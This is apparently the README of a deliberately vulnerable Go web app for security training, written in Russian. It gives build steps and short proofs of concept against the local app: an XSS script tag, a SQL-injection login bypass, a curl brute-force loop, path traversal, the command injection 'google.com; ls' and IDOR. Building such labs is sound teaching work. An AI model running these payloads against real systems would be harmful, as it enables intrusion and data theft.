 <h1 align="center">VulnApp</h1>
<p align="center" >Приложение с различными уязвимостями</p>
<p align="center" >Защищённая версия находится <a href="https://github.com/Stepashka20/not-vuln-app" target="_blank">тут</a></p>


## 📃 Инструкция по сборке и запуску приложения

### Требования

Для успешной сборки этого приложения вам потребуется:

- Go (версия 1.18 и выше)
- gcc (установленный и доступный в системе, необходим для sqlite3)

### Сборка и запуск

Для сборки приложения выполните следующие команды:

```bash
git clone https://github.com/Stepashka20/vuln-app
cd vuln-app
go build -o vuln-app
```

Перед запуском скопируйте и заполните `.env`:
```bash
cp .env.example .env
```

Для запуска приложения выполните следующую команду:

```bash
./vuln-app
```

После этого приложение будет доступно по адресу http://localhost:8080

## 👨🏻‍💻 Proof of Concept

### 1. XSS
1. Зарегестрируйтесь с ником `<script>alert(1)</script>`:
2. После этого в профиле появляется алерт с цифрой 1.

### 2. SQLI
1. Зарегестрируйте юзера с ником 'admin': 
```bash
curl 'http://localhost:8080/register' --data-raw 'username=admin&password=supersecurepassword'
```
2. Допустим мы знаем что админ есть в системе. Тогда мы можем войти через его аккаунт:
```bash
1. Логин: a' UNION SELECT 'admin','$2y$04$QMuPN3FQ4EtmNAx.mPGY5e3C9UIibGaX/U.uvknhOLadNwtEA.iH6' --
2. Пароль: 1234
```
3. Вход от админа успешен

### 3. Brute force
1. Запустите испровизированный брут, который будет перебирать пароль: 
```bash
seq 50 | xargs -P50 -I{} curl -s -o /dev/null -w "%{http_code}\n" 'http://localhost:8080/login' --data-raw 'username=admin&password={}'
```
2. Как видно, сервер не ограничивает нас в количестве запросов, поэтому мы можем перебрать пароль бесконечно

### 4. Path Traversal
1. В профиле пользователя загрузите любой файл в секции загрузки "любимого файла"
2. В профиле появится кнопка для скачивания файла вида: 
```bash
http://localhost:8080/files?name=e5fedb3b-9717-44b6-a68b-a2bb042f4409.png
```
3. После этого мы можем скачать любой файл с сервера, заменив имя файла в ссылке:
```bash
curl http://localhost:8080/files?name=../main.go
```

### 5. OS command injection
1. Перейдите в утилиту Ping:
```bash
http://localhost:8080/ping
```
2. введите в поле для ввода для сайта:
```bash
google.com; ls
```
3. После этого вы увидите список файлов в директории проекта

### 6. IDOR
1. Зарегестрируйте двух юзеров:
```bash
curl 'http://localhost:8080/register' --data-raw 'username=user1&password=supersecurepassword'
curl 'http://localhost:8080/register' --data-raw 'username=user2&password=supersecurepassword'
```
2. Войдите в систему под первым юзером:
```bash
curl 'http://localhost:8080/login' --data-raw 'username=user1&password=supersecurepassword'
```
3. В профиле будет кнопка для удаления своего аккаунта, которая делает запрос на:
```bash
http://localhost:8080/delete?user=user1
```
4. После этого мы можем удалить любого юзера, заменив имя в запросе:
```bash
http://localhost:8080/delete?user=user2
```
